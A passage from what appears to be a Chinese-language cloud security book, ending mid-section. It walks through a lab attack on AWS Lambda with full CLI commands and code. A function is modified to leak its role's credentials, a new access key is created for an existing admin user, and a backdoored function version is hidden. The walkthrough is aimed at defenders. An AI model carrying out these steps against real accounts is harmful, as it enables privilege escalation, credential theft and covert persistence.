An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::...:user/Developer001 is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::...:role/lambda-assumable-role
```

您已验证 `AssumeRole` 不再可用于提升权限。然而，正如您将在下一节中看到的那样，攻击者仍可通过配置了过于宽松执行角色的 AWS Lambda 资源来提升权限。

#### 滥用函数的过于宽松的执行角色以提升权限

在本节中，您将模拟攻击者滥用 Lambda 函数配置错误且过于宽松的执行角色来提升权限。您将首先下载 Lambda 函数代码，然后对其进行修改以返回执行角色的会话凭证。之后，您将打包并部署修改后的函数代码，然后调用该函数以检索临时凭证（`AccessKeyId`、`SecretAccessKey`、`SessionToken`）。最后，使用这些凭证，您将配置一个新的本地 AWS CLI 配置文件以在凭证有效期内使用这些凭证，如 图 5-3 所示。




鉴于凭据继承了角色的权限，新配置文件将具有与授予 Lambda 执行角色的权限等效的权限。因为 Lambda 执行角色附加了 `AdministratorAccess` 受管策略，新配置文件将有效地在整个账户中拥有完全的管理员访问权限。

#### Note

本节假设您使用 Attacker 账户来模拟攻击者尝试利用无服务器实验室环境中的资源。

让我们逐步了解攻击者如何通过具有配置错误的 IAM 角色的现有 Lambda 函数提升权限：

1. 在 CloudShell 终端中，运行以下命令（在 `$` 符号之后）以枚举 `us-east-1` 区域中的所有 Lambda 函数：

```
aws lambda list-functions \
    --region us-east-1 \
    --profile target-dev-account
```

这会返回以下 JSON 输出：

```
{
    "Functions": [
        {
            "FunctionName": "lambda-0000",
            "FunctionArn": "...:function:lambda-0000",
            "Runtime": "python3.13",
            "Role": "arn:aws:iam::...:role/lambda-assumable-role",
            "Handler": "lambda_function.lambda_handler",
            "CodeSize": 268,
            "Description": "",
            "Timeout": 3,
            "MemorySize": 128,
            ...
            "LoggingConfig": {
                "LogFormat": "Text",
                "LogGroup": "/aws/lambda/lambda-0000"
            }
        },
    ]
}
```

2. 运行以下命令以检索 Lambda 函数的代码位置并将结果存储在变量（`CODE_LOCATION`）中：

```
CODE_LOCATION=$(aws lambda get-function \
    --function-name lambda-0000 \
    --region us-east-1 \
    --profile target-dev-account \
    | jq -r ".Code.Location")
```

3. 使用上一步中的代码下载 URL，下载并提取 Lambda 函数代码：

```
cd ~

curl -o function.zip "$CODE_LOCATION"
unzip function.zip -d lambda-0000

cat lambda-0000/lambda_function.py
```

这会打印 `lambda-0000` Lambda 函数的源代码，类似于以下内容：

```
import json

def lambda_handler(event, context):
    output = "Learning Serverless Security!"

    return {
        'statusCode': 200,
        'body': json.dumps(output)
    }
```

#### Note

如果 Lambda 函数代码包含硬编码凭据，获得代码访问权限的攻击者可以利用它们来破坏其他资源或提升权限。我们将在后续章节中介绍这一点。

4. 运行以下命令以调用 Lambda 函数并检查输出响应：

```
aws lambda invoke \
  --function-name lambda-0000 \
  --payload '{}' \
  --region us-east-1 \
  --qualifier '$LATEST' \
  --profile target-dev-account \
  output_response.json

cat output_response.json
```

这会返回以下响应：

```
{"statusCode": 200, "body": "\"Learning Serverless Security!\""}
```

5. 检索 Lambda 函数的最新发布版本：

```
aws lambda list-versions-by-function \
  --function-name lambda-0000 \
  --query 'Versions[-1].Version' \
  --output text \
  --region us-east-1 \
  --profile target-dev-account
```

这会返回 `1`，对应于 Lambda 函数的第一个版本。

6. 使用 `vim` 修改 `lambda-0000/lambda_function.py` 中的函数代码：

1. 启动 `vim` 并打开 `lambda-0000/lambda_function.py`：

```
vim lambda-0000/lambda_function.py
```

2. 按 I 进入 *insert* 模式。

#### Note

在 `vim` 中，*Insert* 模式允许您像普通文本编辑器一样直接在文件中输入和编辑文本。您可以在此模式下插入、修改或删除文本并添加新行。

3. 在插入模式下，将代码更新为以下内容：

```
import json

def lambda_handler(event, context):
    output = "Modified!"

    return {
        'statusCode': 200,
        'body': json.dumps(output)
    }
```

4. 按 Esc 退出插入模式。

#### Note

*Normal mode* 是 `vim` 的默认模式，用于通过命令而不是直接插入字符来导航和编辑文本。例如，您可以使用 `:w!` 保存文件，使用 `/` 搜索文本，或使用 `dd` 删除一行。当您退出插入模式时，您将返回到普通模式，在该模式下您可以移动光标、删除或复制文本并执行其他编辑命令。

5. 输入 `:wq!` 并按 Enter 保存更改并退出 `vim`。

7. 运行以下命令（在 `$` 符号之后）将修改后的 Lambda 函数代码打包到新的 ZIP 归档文件中：

```
cd ~/lambda-0000
zip -r ../function-new.zip .
```

8. 将更新后的函数代码部署到 AWS Lambda：

```
aws lambda update-function-code \
  --function-name lambda-0000 \
  --zip-file fileb://../function-new.zip \
  --region us-east-1 \
  --profile target-dev-account
```

9. 等待 Lambda 函数完成更新：

```
aws lambda wait function-updated \
  --function-name lambda-0000 \
  --region us-east-1 \
  --profile target-dev-account
```

10. 运行以下命令列出 `lambda-0000` Lambda 函数的所有已发布版本：

```
aws lambda list-versions-by-function \
  --function-name lambda-0000 \
  --query 'Versions[].Version' \
  --output text \
  --region us-east-1 \
  --profile target-dev-account
```

这应返回以下响应，表明该函数除了未发布的 `$LATEST` 版本外还有一个已发布版本：

```
$LATEST 1
```

#### Note

您可能会得到不同的版本号列表，具体取决于账户中该函数已发布的版本数量。

11. 调用并测试未发布的 `$LATEST` 版本：

```
aws lambda invoke \
  --function-name lambda-0000 \
  --payload '{}' \
  --region us-east-1 \
  --qualifier '$LATEST' \
  --profile target-dev-account \
  output_response.json

cat output_response.json
```

这证实更新后的函数代码已成功执行：

```
{"statusCode": 200, "body": "\"Modified!\""}
```

现在您已验证可以向现有 Lambda 函数部署新代码，让我们继续模拟攻击者如何引入恶意函数代码以返回与函数执行角色关联的临时凭据：

1. 让我们再次使用 `vim` 修改 `lambda_function.py` 中的代码：

1. 启动 `vim` 并打开 `lambda_function.py`：

```
vim lambda_function.py
```

2. 输入 `:set nu` 然后按 Enter 在 `vim` 中显示行号。

#### Note

在 `vim` 中，`:set nu` 和 `:set number` 都会在每行旁边显示行号。您可以根据自己的喜好使用任一命令。

3. 按 I 进入插入模式。

4. 在插入模式下，将代码更新为以下内容：

```
import boto3

def lambda_handler(event, context):
    session = boto3.Session()
    credentials = session.get_credentials().get_frozen_credentials()

    return {
        'AccessKeyId': credentials.access_key,
        'SecretAccessKey': credentials.secret_key,
        'SessionToken': credentials.token
    }
```


该 Lambda 函数将返回颁发给 Lambda 执行角色的临时凭证，并允许你在每次调用函数时检索访问密钥、秘密密钥和会话令牌。

#### Tip

该函数代码的副本可在 [GitHub gist（见 `lambda_function.py`）](https://oreil.ly/0mSPU) 中获取。如果你直接从 gist 中粘贴代码，可以在 `vim` 中使用 `:set paste` 来防止格式问题。你应在普通模式下激活 `:set paste`（即在插入模式之外）：按 `Esc` 确保处于普通模式，输入 `:set paste`，按 Enter，然后进入插入模式（`i`）以安全地粘贴代码，避免自动缩进或格式问题。

5. 按 `Esc` 退出插入模式。

6. 输入 `:wq!` 并按 Enter 保存更改并退出 `vim`。

2. 运行以下命令以重新打包并部署修改后的 Lambda 函数：

```
zip -r ../function-new.zip .

aws lambda update-function-code \
  --function-name lambda-0000 \
  --zip-file fileb://../function-new.zip \
  --profile target-dev-account \
  --region us-east-1
```

3. 使用以下命令等待 Lambda 函数完成更新：

```
aws lambda wait function-updated \
  --function-name lambda-0000 \
  --profile target-dev-account \
  --region us-east-1
```

4. 准备就绪后，让我们继续模拟攻击者外泄与 Lambda 函数执行角色关联的短期凭证，如 图 5-4 所示。



运行以下命令以调用修改后的 Lambda 函数并检查其输出：

```
aws lambda invoke \
  --function-name lambda-0000 \
  --payload '{}' \
  --region us-east-1 \
  --qualifier '$LATEST' \
  --profile target-dev-account \
  output_response.json

cat output_response.json
```

这次，调用函数应返回类似以下的短期会话凭证：

```
{"AccessKeyId": "...", "SecretAccessKey": "...", "SessionToken": "..."}
```

5. 使用返回的凭证配置新的 AWS CLI 配置文件：

```
KEY_ID=$(cat output_response.json | \
    jq -r ".AccessKeyId")

SECRET_ACCESS_KEY=$(cat output_response.json | \
    jq -r ".SecretAccessKey")

SESSION_TOKEN=$(cat output_response.json | \
    jq -r ".SessionToken")

aws configure set aws_access_key_id $KEY_ID \
    --profile lambda-creds-profile

aws configure set aws_secret_access_key $SECRET_ACCESS_KEY \
    --profile lambda-creds-profile

aws configure set aws_session_token $SESSION_TOKEN \
    --profile lambda-creds-profile
```

6. 验证新配置文件（`lambda-creds-profile`）关联的身份：

```
aws sts get-caller-identity --profile lambda-creds-profile
```

以下 JSON 输出确认会话正在使用 Lambda 函数的执行角色：

```
{
    "UserId": "...:lambda-0000",
    "Account": "...",
    "Arn": ".../lambda-assumable-role/lambda-0000"
}
```

此时，你实际上是以 `AdministratorAccess` 权限运行，使用 `lambda-creds-profile` AWS CLI 配置文件。从防御安全角度来看，请记住，即使攻击者无法直接承担 Lambda 函数的角色，如果攻击者能够修改函数代码并且执行角色授予了过多的权限，攻击者仍可能提取临时凭证并提升权限。你应在所有 Lambda 执行角色上强制实施最小权限原则，并确保它们仅具有执行预期任务所需的权限。

#### Caution

与 `lambda-creds-profile` AWS CLI 配置文件关联的临时凭证仅在有限时间内有效。为避免身份验证错误，请在凭证过期前立即继续进行下一节。如果会话超时，你需要重新调用 Lambda 函数以获取新的短期凭证集。

#### Establishing Persistence with New IAM User Credentials

鉴于临时凭证是有意设计为短期有效，攻击者无法依赖它们进行长期访问。为了延长访问时间，攻击者可以使用这些临时凭证为现有 IAM 用户生成新的访问密钥。这种方法通常比创建全新的 IAM 用户更隐蔽，因为现有用户账户可能已在常规使用中，在例行审计期间不太可能引起怀疑。

在本节中，你将探讨攻击者如何使用短期凭证获取长期访问凭证。你将首先枚举 IAM 组以识别具有 `AdministratorAccess` 受管策略（或类似广泛权限）的潜在账户，例如 `Administrators` 组成员。接下来，你将针对其中一个用户并为该现有 IAM 用户创建新的长期访问密钥集（`AccessKeyId` 和 `SecretAccessKey`）。最后，你将把这些密钥配置为命名的 AWS CLI 配置文件并通过使用 `aws sts get-caller-identity` 确认该配置文件有效。

#### Note

本节假设你正在使用 Attacker 账户来模拟攻击者尝试利用无服务器实验室环境中的资源。

让我们继续进行模拟：

1. 在 Attacker 账户的 CloudShell 终端中，运行以下命令（在 `$` 符号之后）以检查 Serverless Lab 账户中存在哪些 IAM 组：

```
aws iam list-groups --profile lambda-creds-profile
```

这会返回以下内容：

```
{
    "Groups": [
        {
            "Path": "/",
            "GroupName": "Administrators",
            "GroupId": "...",
            "Arn": "arn:aws:iam::...:group/Administrators",
            "CreateDate": "..."
        },
        {
            "Path": "/",
            "GroupName": "Developers",
            "GroupId": "...",
            "Arn": "arn:aws:iam::...:group/Developers",
            "CreateDate": "..."
        }
    ]
}
```

此 JSON 输出显示 Serverless Lab 账户目前有两个 IAM 组：`Administrators` 和 `Developers`。从攻击者角度来看，`Administrators` 组的存在标志着创建现有用户的长期凭证的潜在主要目标，或通过在 `Administrators` 组中创建新的 IAM 用户并为这些账户生成访问密钥以获得持久的管理员访问权限。

2. 使用 `aws iam get-group` 命令检查 `Administrators` 组并列出属于该组的 IAM 用户：

```
aws iam get-group \
    --group-name Administrators \
    --profile lambda-creds-profile
```

这会产生以下输出：

```
{
    "Users": [
        {
            "Path": "/",
            "UserName": "Administrator001",
            "UserId": "...",
            "Arn": "arn:aws:iam::...:user/Administrator001",
            "CreateDate": "..."
        }
    ],
    "Group": {
        "Path": "/",
        "GroupName": "Administrators",
        "GroupId": "...",
        "Arn": "arn:aws:iam::...:group/Administrators",
        "CreateDate": "..."
    }
}
```

此 JSON 输出显示 `Administrators` 组有一个成员：IAM 用户 `Administrator001`。从攻击者角度来看，该用户是生成长期凭证的高价值目标。

3. 为 `Administrator001` 生成新的访问凭证：


```
aws iam create-access-key \
    --user-name Administrator001 \
    --profile lambda-creds-profile
```

这将返回包含为 `Administrator001` 生成的新长期凭证的 JSON 输出：

```
{
    "AccessKey": {
        "UserName": "Administrator001",
        "AccessKeyId": "...",
        "Status": "Active",
        "SecretAccessKey": "...",
        "CreateDate": "..."
    }
}
```

请务必在进入下一步之前，将 `AccessKeyId` 和 `SecretAccessKey` 值复制下来并安全地存储在本地机器上。^8

#### Caution

在任何情况下都不要共享这些值，因为它们是与具有 `AdministratorAccess` 的 IAM 用户关联的长期凭证。

4. 使用上一步获得的新凭证，为新用户配置一个命名配置文件（`admin-001`）：

```
aws configure set aws_access_key_id KEY_ID --profile admin-001
aws configure set aws_secret_access_key SECRET_ACCESS_KEY --profile admin-001
```

#### Caution

在运行命令之前，请务必将 `KEY_ID` 和 `SECRET_ACCESS_KEY` 替换为上一步获得的 `AccessKeyId` 和 `SecretAccessKey` 值。

5. 检查 `admin-001` 配置文件是否正确配置：

```
aws sts get-caller-identity --profile admin-001
```

这将返回以下响应：

```
{
    "UserId": "...",
    "Account": "...",
    "Arn": "arn:aws:iam::...:user/Administrator001"
}
```

此输出确认 `admin-001` AWS CLI 配置文件已正确配置，并且正在以 `Administrator001` 的权限运行。

你现在应该对攻击者如何利用短期凭证生成长期访问密钥有了坚实的理解。从防御安全角度来看，你应将任何程序化创建长期凭证的行为视为高风险事件。至关重要的是审查所有 IAM 用户、组、角色和策略，并应用严格的最小权限原则和访问控制。同时，你还应深入研究可能的权限提升路径，包括本书中未讨论的路径，以便在被利用之前识别和修复配置错误以及潜在的提升路径。

#### Establishing Persistence via a Backdoored Lambda Version

攻击者建立持久化的另一种方式是通过发布一个带后门的 Lambda 版本。由于大多数开发团队只关注 `$LATEST` 版本，旧的已发布版本可能数周甚至数月无人检查。攻击者可以利用这一点，通过发布并隐藏一个恶意版本，该版本可通过其版本号或别名继续被调用。如果未被发现，该版本可作为后门，使攻击者即使在其他凭证被撤销后仍能重新访问 AWS 账户环境。

在本节中，你将模拟攻击者在云环境中通过发布恶意 Lambda 版本来建立后门访问。具体来说，你将创建并调用一个 Lambda 函数版本，该版本返回与其执行角色关联的临时凭证。之后，你将发布一个包含原始函数代码的新版本以隐藏恶意版本。到本节结束时，你将拥有一个与 Figure 5-5 所示类似的后门设置。^9

通过站在攻击者的角度，你可以亲身体验应用持久化技术。这将帮助你在实际工作负载中识别危险信号并实施更强的防御措施来抵御它们。

#### Note

本节假设你使用 Attacker 账户来模拟攻击者对无服务器实验室环境中资源进行利用的尝试。



让我们开始模拟：

1. 让我们先使用当前部署的最新代码发布 Lambda 函数的新版本：

```
aws lambda publish-version \
  --function-name lambda-0000 \
  --region us-east-1 \
  --profile admin-001
```

此时，你应该有两个 Lambda 函数版本：版本 `1` 指向返回 `Learning Serverless Security` 的原始代码，版本 `2` 指向返回临时凭证的恶意函数代码（如 Figure 5-6 所示）。



鉴于最新部署的代码返回分配给 Lambda 执行角色的临时凭证，调用此特定 Lambda 函数版本将为攻击者提供与角色权限绑定的新临时凭证。

#### Note

通过发布 Lambda 函数版本，你创建了代码的快照，可以始终通过其版本号调用。这意味着攻击者或开发人员可以直接调用旧版本，即使 `$LATEST` 已被新代码覆盖。

2. 运行以下命令列出 Lambda 函数的所有已发布版本：

```
aws lambda list-versions-by-function \
  --function-name lambda-0000 \
  --query 'Versions[].Version' \
  --output text \
  --region us-east-1 \
  --profile admin-001
```

这将返回以下响应：

```
$LATEST 1       2
```

此响应表明目前 Lambda 函数共有三个版本：未发布的 `$LATEST` 版本和两个已发布版本（`1` 和 `2`）。版本 `1` 指向返回 `Learning Serverless Security` 的原始代码，而版本 `2` 指向返回临时凭证的恶意函数代码。

3. 调用 Lambda 函数的版本 `2`：

```
aws lambda invoke \
  --function-name lambda-0000 \
  --payload '{}' \
  --region us-east-1 \
  --qualifier '2' \
  --profile admin-001 \
  output_response.json

cat output_response.json
```

 resulting output 应为与 Lambda 函数执行角色关联的一组临时会话凭证。

#### Note

此时，任何导航到 Lambda 函数代码标签页的 AWS 账户用户都会看到返回并泄露凭证的恶意后门代码。

4. 要隐藏恶意版本，请运行以下命令发布一个重用版本 `1` 中确切部署代码的新 Lambda 版本：

```
aws lambda update-function-code \
  --function-name lambda-0000 \
  --zip-file fileb://../function.zip \
  --region us-east-1 \
  --profile admin-001

aws lambda wait function-updated \
  --function-name lambda-0000 \
  --region us-east-1 \
  --profile admin-001

aws lambda publish-version \
  --function-name lambda-0000 \
  --region us-east-1 \
  --profile admin-001
```

Figure 5-7 有助于你可视化当前已发布的 Lambda 函数版本集合。



目前，Lambda 函数有三个版本：版本 `1` 指向返回 `Learning Serverless Security` 的原始代码，版本 `2` 指向返回临时凭证的恶意函数代码，版本 `3` 指向版本 `1` 的副本。

5. 发布新版本后，让我们调用 Lambda 函数的最新版本：

```
aws lambda invoke \
  --function-name lambda-0000 \
  --payload '{}' \
  --region us-east-1 \
  --qualifier '$LATEST' \
  --profile admin-001 \
  output_response.json

cat output_response.json
```

以下是 JSON 响应：


```
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
{"statusCode": 200, "body": "\"Learning Serverless Security!\""}
```

这证实了函数已成功执行，并且 Lambda 函数代码的原始版本正在 `$LATEST` 版本中运行。

#### Note

此时，任何 AWS 账户用户导航到 Lambda 函数的 Code 选项卡时，都会看到返回 `Learning Serverless Security` 的原始代码。

6. 现在是时候验证恶意的 Lambda 函数版本（版本 `2`）是否可以直接调用，如 Figure 5-8 所示。



运行以下命令来调用 Lambda 函数版本 `2`：

```
aws lambda invoke \
  --function-name lambda-0000 \
  --payload '{}' \
  --region us-east-1 \
  --qualifier '2' \
  --profile admin-001 \
  output_response.json

cat output_response.json
```

响应如下：

```
{"AccessKeyId": "...", "SecretAccessKey": "...", "SessionToken": "..."}
```

这里，你提供的 qualifier 直接对应 Lambda 函数的已发布版本号。例如，指定 `--qualifier '2'` 将调用该函数的版本 `2`。

#### Caution

版本号会在发布新版本时按升序自动分配，并且一旦创建就不能重复使用。因此，你需要确保指定的 qualifier 直接对应恶意函数代码的版本号。

7. 让我们从 Serverless Lab 账户开发者的角度来查看这一点。切换回 Serverless Lab 账户的 AWS 管理控制台，然后导航到 Lambda 控制台。

选择 `lambda-0000` 函数，然后导航到 Code 选项卡以检查部署的最新代码。你应该在代码编辑器中看到原始的 Lambda 函数代码（Figure 5-9）。



#### Note

此时，除非开发团队检查 Aliases and Versions 选项卡，否则后门版本可能在数周甚至数月内都不会被发现。

让我们导航到 Versions 选项卡（Figure 5-10）。



这里，你有三个版本——其中版本 `2` 保留了恶意代码，在被调用时会返回与角色权限绑定的新临时凭证。

#### Note

